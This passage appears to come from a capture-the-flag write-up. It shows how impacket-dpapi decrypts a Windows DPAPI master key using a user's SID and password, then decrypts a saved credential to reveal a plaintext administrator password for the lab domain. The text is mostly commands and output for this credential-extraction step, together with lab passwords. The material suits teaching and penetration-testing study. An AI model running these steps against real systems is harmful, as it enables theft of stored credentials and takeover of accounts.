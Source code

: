 - `impacket-dpapi masterkey`: This is the Impacket module for interacting with DPAPI master keys. DPAPI is an API in Windows that allows users to securely encrypt data such as passwords, certificates, and other secrets. Windows uses master keys to protect this encrypted data, and the masterkey command is designed to recover or decrypt those master keys.

- `-file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b`: This is the masterkey file that you want to decrypt. This file is generated by Windows DPAPI and is stored in the user's profile. Master keys are used by DPAPI to encrypt and decrypt sensitive data.

- `-sid S-1-5-21-4024337825-2033394866-2055507597-1115`: The SID (Security Identifier) ​​is the unique identifier for a user on the Windows system. It is needed to decrypt the master key because DPAPI uses the user's SID as part of the encryption/decryption process.

- `-password Zer0the0ne`: This is the user's password associated with the provided SID. To decrypt the master key, you need the user's password, as DPAPI uses the password as part of the key derivation process to protect data.

This command is used to **decrypt a DPAPI master key**. On Windows, when a user encrypts data using DPAPI, a master key is generated that is used for encryption and decryption of that data. Without this key, the data cannot be recovered.

```bash
❯ impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

Now to decrypt the key we will use the same impacket tool, with it we execute the following command

```bash
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```

```bash
❯ impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2024-06-07 15:08:23
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : LegacyGeneric:target=admin_acc
Description : 
Unknown     : 
Username    : vintage\c.neri_adm
Unknown     : Uncr4ck4bl3P4ssW0rd0312
```
